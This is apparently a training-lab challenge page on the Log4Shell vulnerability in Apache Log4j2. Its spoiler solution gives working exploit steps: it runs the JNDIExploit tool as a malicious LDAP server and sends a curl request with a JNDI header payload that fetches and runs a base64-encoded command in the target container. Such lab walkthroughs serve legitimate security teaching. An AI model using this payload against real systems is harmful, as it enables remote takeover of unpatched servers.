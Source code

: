 <h2>Description</h2>
<p>Also known as CVE-2021-44228, log4shell is a zero-day software vulnerability in Apache Log4j2, a popular Java library used for logging purposes in applications.</p>
<p>This vulnerability enables a remote attacker to take control of a device on the internet if the device is running certain unpatched versions of Log4j2.</p>
<p>In December 2021, Apache had to release up to 4 corrective patches to fully close the breach. It is believed that malicious actors likely knew about the vulnerability and exploited it before experts did, hence why it is considered zero-day.</p>

<h2>Goal</h2>
<p>Find a way to remotely execute commands within the system (container).</p>

<h2>Solution</h2>
<details>
    <summary>Spoilers! (click to expand)</summary>
    <p>1. Download the JNDIExploit from that link -> https://tinyurl.com/yp2n78js then extract it in a dedicated folder.</p>
    <p>2. Launch a malicious LDAP server using the command \n\"java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888\"</p>
    <p>3. Trigger the exploit using the command: curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'</p>
    <p>4. Go to Containers, open the main container shell and check for the presence of the pwned file by doing ls /tmp</p>
</details>